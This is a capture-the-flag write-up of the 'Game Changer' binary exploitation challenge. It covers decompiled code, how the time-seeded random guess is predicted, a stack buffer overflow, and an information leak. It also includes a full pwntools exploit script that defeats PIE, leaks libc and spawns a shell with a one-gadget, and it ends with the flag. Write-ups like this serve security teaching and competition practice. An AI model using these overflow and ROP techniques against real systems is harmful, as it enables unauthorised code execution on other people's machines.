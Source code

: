 ## Game Changer 🩸

```
Author: itoid

Are you a Game Changer?

nc ctf.tcp1p.com 9254
```
**Attachment**: [gamechanger](release/gamechanger)

We were given a ELF binary called gamechanger. Here's some information about the binary.

![ELF Information](images/3fc4b0dd0ae7375abe4d3a6f3fc59db8633a83abfcaf8604a7f78222ef9a752b.png)  

<details close><summary>Decompiled Binary</summary>
    
```c
int init()
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  return setvbuf(stderr, 0LL, 2, 0LL);
}

__int64 randomize()
{
  unsigned int v0; // eax

  v0 = time(0LL);
  srand(v0);
  return (unsigned int)((rand() + 34) % 23);
}

__int64 game()
{
  char s[20]; // [rsp+0h] [rbp-20h] BYREF
  int v2; // [rsp+14h] [rbp-Ch]
  unsigned int v3; // [rsp+18h] [rbp-8h]
  unsigned int v4; // [rsp+1Ch] [rbp-4h]

  v4 = 0;
  v3 = randomize();
  puts("Let's play a game, try to guess a number between 1 and 100");
  fgets(s, 16, stdin);
  v2 = atoi(s);
  if ( !v2 )
  {
    puts("That's not a number");
    exit(0);
  }
  if ( v2 == v3 )
  {
    return 1;
  }
  else if ( v2 >= (int)v3 )
  {
    printf("Nope");
  }
  else
  {
    printf("Nope, the number i'm thinking is %d\n", v3);
  }
  return v4;
}

int ask()
{
  char buf[256]; // [rsp+0h] [rbp-100h] BYREF

  puts("Congrats, you guessed it correctly. What do you want to do this morning?");
  read(0, buf, 0x122uLL);
  if ( strlen(buf) <= 0x7F )
  {
    puts("Oh, are you an introverted person?");
    exit(0);
  }
  return printf("Oh, you want to %s...\nWow, you're a very active person!\n", buf);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+4h] [rbp-Ch] BYREF
  int v5; // [rsp+8h] [rbp-8h]
  unsigned int v6; // [rsp+Ch] [rbp-4h]

  init();
  printf("Do you want to play a game? (1: Yes, 0: No): ");
  while ( (unsigned int)__isoc99_scanf("%d", &v4) != 1 || v4 && v4 != 1 )
  {
    while ( getchar() != 10 )
      ;
    printf("Invalid choice. Please enter 1 or 0: ");
  }
  while ( getchar() != 10 )
    ;
  if ( v4 )
  {
    if ( v4 == 1 )
    {
      v6 = 1;
      v5 = 0;
      while ( (int)v6 <= 5 && !v5 )
      {
        printf("Attempt %d:\n", v6);
        v5 = game();
        ++v6;
      }
      if ( v5 )
        ask();
      else
        puts("You couldn't guess the number. Better luck next time!");
    }
  }
  else
  {
    puts("Okay, maybe another time!");
  }
  return 0;
}
```
    
</details>

When the program is running, it will loop and call the `game()` function when the user enters the number 1. In the `game()` function, the user will be prompted to enter a number. If the number entered by the user is the same as the result of calling the `randomize()` function, the program will return to the `main()` function with a value of 1 (True).

In the `randomize()` function, the program will call `srand()` to set the randomization seed for the `rand()` function using the current time as an integer seed. This can be exploited to obtain the same random number as the result of calling the `randomize()` function.

Now let's take a look at the `ask()` function which will be called if the `game()` function return 1.  

```c
int ask()
{
  char buf[256]; // [rsp+0h] [rbp-100h] BYREF

  puts("Congrats, you guessed it correctly. What do you want to do this morning?");
  read(0, buf, 290uLL);
  if ( strlen(buf) <= 0x7F )
  {
    puts("Oh, are you an introverted person?");
    exit(0);
  }
  return printf("Oh, you want to %s...\nWow, you're a very active person!\n", buf);
}
```

The program will ask the user to input data with a maximum of 296 bytes, which will be stored in the variable `buf`. This creates a Buffer Overflow vulnerability because the `buf` variable can only hold up to 256 bytes of data. This can be leveraged to perform a Return-Oriented Programming (ROP) attack. However, due to the presence of Position-Independent Executable (PIE) mitigation in the provided binary, we cannot directly jump to the desired function. In this case, I decided to perform a brute force with a probability of 1/16 by overwriting the last 2 bytes (3 known nibbles and 1 unknown nibble) of the SAVED RIP on the stack with the address of the `main()` function. This is done with the aim of determining a valid address by observing if the program displays the output from the "main()" function.

Additionally, there is a vulnerability in the "ask()" function that can be exploited to leak an address.
```c
  return printf("Oh, you want to %s...\nWow, you're a very active person!\n", buf);
```
This vulnerability arises because the user's input received using the read() function is not terminating the user input using null byte. Therefore, if a user enters specific data, it possible the program to potentially display addresses and values stored in the stack. To clarify further, please refer to the image below.

![Leaking Stack Value](images/7be64d87cb5c679b21c43e4ae60b7167a5dee39c8d21cb57c0f2c7cf085f4623.png)  
![Leaked Value](images/6b3424c5c964e0c49beccecd485fed0955150f396effb9c636c8dc3f8d450d5c.png)  

When I tried to debug, I noticed that at the end of the `ask()` function the $RDI register was pointing to the stack address that contained the libc address of the `funlockfile()` function. 
![RDI Containing a LIBC Address](images/8ed3287d2b5190753e0fc66809c24efff11ab85a0c5757f1cf3a2f04c322aecf.png)  
Then, I had the idea to perform a libc address leak by calling the `printf()` function and testing it on the REMOTE server, which turned out to be successful. From there, I assumed that the server was running on Ubuntu 22.04 (GLIBC version 2.35). Honestly, I felt lucky because I was using Ubuntu 22.04, which has GLIBC version 2.35 xD.

After performing the leak, the payload I used is to return to the `ask()` function to perform ROP. Here, I decided to use a one-gadget because there is a suitable constraint to use after calling the `ask()` function:
```
0xefcf5 execve("/bin/sh", r10, rdx)
constraints:
address rbp-0x78 is writable
[r10] == NULL || r10 == NULL
[rdx] == NULL || rdx == NULL
```

Here's my exploit to solve this challenge:
    
<details open> <summary>exploit.py</summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from os import path
import sys
import time
from ctypes import CDLL

# ==========================[ Information
DIR = path.dirname(path.abspath(__file__))
EXECUTABLE = "/gamechanger" # patched the libc with libc6_2.35-0ubuntu1_amd64.so
TARGET = DIR + EXECUTABLE 
HOST, PORT = "ctf.tcp1p.com", 9254
REMOTE, LOCAL = False, False

# ==========================[ Tools
elf = ELF(TARGET)
elfROP = ROP(elf)

# ==========================[ Configuration
context.update(
	arch=["i386", "amd64", "aarch64"][1],
	endian="little",
	os="linux",
	log_level = ['debug', 'info', 'warn'][2],
	terminal = ['tmux', 'split-window', '-h'],
)

# ==========================[ Exploit

def win_game():
	cdll.srand(int(time.time()))
	correct_answer = (cdll.rand() + 34) % 23
	io.sendlineafter(b"100\n", str(correct_answer).encode())
	sleep(0.01)

def exploit(io, libc=null, cdll=null):
	if LOCAL==True:
		#raw_input("Fire GDB!")
		if len(sys.argv) > 1 and sys.argv[1] == "d":
			choosen_gdb = [
				"source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py",     # 0 - pwndbg
				"source /home/mydata/tools/gdb/gdb-peda/peda.py",          # 1 - peda
				"source /home/mydata/tools/gdb/gdb-gef/.gdbinit-gef.py"    # 2 - gef
				][0]
			cmd = choosen_gdb + """
			b *ask+0x66
			c
			"""
			gdb.attach(io, gdbscript=cmd)
	io.sendlineafter(b" game? (1: Yes, 0: No):", b"1", timeout=2)
	win_game()

	# === Overflow jump to main+1
	p = b""
	p = b"A"*(0x108-1)+b"|"
	p += p16(0xe3e2+1) # ?3e2+1 == ? unknown 
	io.sendafter(b"What do you want to do this morning?\n", p, timeout=2)
	sleep(0.01)
	io.recvuntil(b"|")
	LEAKED_ELF = u64(io.recv(6, timeout=2).ljust(8, b"\x00"))
	elf.address = LEAKED_ELF - elf.symbols["main"] - 1
	print("LEAKED_ELF               :", hex(LEAKED_ELF))
	print("elf.address              :", hex(elf.address))

	io.recvuntil(b"game? ", timeout=2)
	io.sendlineafter(b"(1: Yes, 0: No):", b"1")
	sleep(0.01)
	win_game()

    # === Leak LIBC Address using printf($RDI)
    # === and jump back to the ask() function
	p = b""
	p = b"A"*(0x108-1)+b"|"
	p += p64(elf.search(asm('ret')).__next__())
	p += p64(elf.symbols["printf"])
	p += p64(elf.symbols["ask"]+1)
	io.sendafter(b"What do you want to do this morning?\n", p)
	sleep(0.01)
	io.recvuntil(b"|")
	io.recvuntil(b"person!\n", timeout=2)
	

	LEAKED_LIBC = u64(io.recv(6).ljust(8, b"\x00"))
	libc.address = LEAKED_LIBC - libc.symbols["funlockfile"]
	print("LEAKED_LIBC              :", hex(LEAKED_LIBC))
	print("libc.address             :", hex(libc.address))

	"""
	0xefcf5 execve("/bin/sh", r10, rdx)
	constraints:
	address rbp-0x78 is writable
	[r10] == NULL || r10 == NULL
	[rdx] == NULL || rdx == NULL
	"""

	p = b""
	p = p.ljust(0x108-8, b"A")
	p += p64(elf.bss(0x200)) # writeable memory area
	p += p64(libc.address+0xefcf5) # jump to One gadget
	io.sendafter(b"What do you want to do this morning?\n", p)
	sleep(0.01)

	io.interactive()

if __name__ == "__main__":
	io, libc = null, null
	if args.REMOTE:
		REMOTE = True
	else:
		LOCAL = True
	libc = ELF("libc6_2.35-0ubuntu1_amd64.so")
	cdll = CDLL("/lib/x86_64-linux-gnu/libc.so.6")

	while True:
		try:
			if REMOTE == True:
				io = remote(HOST, PORT)
				
			else:
				io = process(
					[TARGET, ],
					env={
					#     "LD_PRELOAD":DIR+"/___",
					#     "LD_LIBRARY_PATH":DIR+"/___",
					},
				)
			elf.address = 0
			exploit(io, libc, cdll)
		except Exception as e:
			print(e)
			pass
``` 
</details>

![PWN3D](images/f7300ac9b074a7d805dfd9e419b1482001a9ea319f6845ab37a0b46c46fdecb6.png)  

    
**Flag:** TCP1P{w0w_1ve_n3v3r_533n_5uch_4_900d_g4m3_ch4n93r_29c19ff69c5760fee1db8cac282a7b073bec936f}